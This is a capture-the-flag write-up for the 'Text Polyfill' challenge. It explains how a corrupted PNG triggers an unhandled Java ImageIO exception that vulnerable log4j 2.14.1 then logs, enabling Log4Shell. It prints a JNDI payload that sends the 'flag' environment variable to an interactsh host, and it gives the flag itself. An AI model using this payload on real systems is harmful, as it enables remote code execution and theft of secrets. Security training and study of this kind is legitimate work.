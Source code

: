 # Text Polyfill

## Challenge Description
We feel your pain. You love to generate art with AI, but hate the fact it can't put simple text on your pictures. Well... Fear no more. Our simple website allows to add any text to your AI generated images without a hassle. Enjoy!

## Initial Analysis
The challenge provides a web application that allows users to upload an image and add text to it. The application is built using Java and runs on an Apache Tomcat server.

Upon analyzing the provided code and Dockerfile, we notice the following:
- The application uses an old Java version (1.8.0_71) 

```bash
root@f5a8b076a1d3:/> java -version

java version "1.8.0_71"

Java(TM) SE Runtime Environment (build 1.8.0_71-b15)

Java HotSpot(TM) 64-Bit Server VM (build 25.71-b15, mixed mode)
```

- The `ImageTextServer` servlet handles the image processing and text overlay functionality.
- The `javax.imageio.ImageIO` library is used to read and write images.
- The application uses a vulnerable version of the `log4j` library (2.14.1) for logging.

```xml
<dependencies>
    <dependency>
        <groupId>org.apache.logging.log4j</groupId>
        <artifactId>log4j-core</artifactId>
        <version>2.14.1</version>
    </dependency>
    <dependency>
        <groupId>org.apache.logging.log4j</groupId>
        <artifactId>log4j-api</artifactId>
        <version>2.14.1</version>
    </dependency>
</dependencies>
```

This log4j allows to execute Log4Shell attack, but the only place the logger is used is in the exception that should never happen according to the documentation of `javax.imageio.ImageIO`.

Further investigation reveals that there is a known bug in the `javax.imageio.ImageIO` library for the specific Java version used in the challenge. The bug causes the library to throw undocumented exceptions other than `IOException` when processing corrupted PNG images.

https://bugs.openjdk.org/browse/JDK-8152979

## Vulnerability
The vulnerability in this challenge lies in the combination of two factors:

1. The use of an outdated Java version (1.8.0_71) with a known bug in the `javax.imageio.ImageIO` library.
2. The presence of a vulnerable version of the `log4j` library (2.14.1) in the application.

By exploiting the bug in the `javax.imageio.ImageIO` library, we can trigger an exception that is not properly handled by the application. This exception will be logged using the vulnerable `log4j` library, allowing us to inject malicious payloads and perform a remote code execution attack known as Log4Shell.

## Exploitation
To exploit this vulnerability and retrieve the flag, we can use the `interactsh` tool to simplify the process. Here's how we can do it:

1. Install the `interactsh` tool by following the instructions on the [project's GitHub repository](https://github.com/projectdiscovery/interactsh).

2. Start an `interactsh` server:

```
interactsh-client -v
```

3. Note the generated interaction URL provided by `interactsh`.

4. Create a corrupted PNG image by randomly changing some bytes in a valid PNG file.

5. Prepare a Log4Shell payload using the `interactsh` interaction URL:

```
${jndi:ldap://${env:flag}.<interactsh-url>}
```

Replace `<interactsh-url>` with the interaction URL obtained from `interactsh`.

6. Send a POST request to the `/process` endpoint of the application, including the corrupted PNG image and the Log4Shell payload as the text parameter.

7. The `javax.imageio.ImageIO` library will throw an undocumented exception while processing the corrupted image.

8. The exception will be caught by the generic `Exception` block in the code, and the text parameter (containing the Log4Shell payload) will be logged using the vulnerable `log4j` library.

9. The Log4Shell payload will be executed, triggering an interaction with the `interactsh` server.

10. The `interactsh` server will capture the interaction, which will include the value of the "flag" environment variable.


Flag: `1753c{generate_text_to_get_an_epic_rce}`

### Conclusion
The "Text Polyfill" challenge demonstrates the risks associated with using outdated software components and the importance of proper exception handling and input validation. The combination of a known bug in the `javax.imageio.ImageIO` library and the presence of a vulnerable `log4j` version allowed for a remote code execution attack using the Log4Shell vulnerability.

This challenge highlights the need for regular software updates, thorough testing, and secure coding practices to prevent such vulnerabilities. It also emphasizes the importance of properly handling exceptions and validating user input to mitigate the risk of exploitable scenarios.

By leveraging the `interactsh` tool, participants can simplify the exploitation process and capture the flag value through interactions triggered by the Log4Shell payload. This tool provides a convenient way to detect and capture out-of-band interactions during the exploitation of vulnerabilities like Log4Shell.
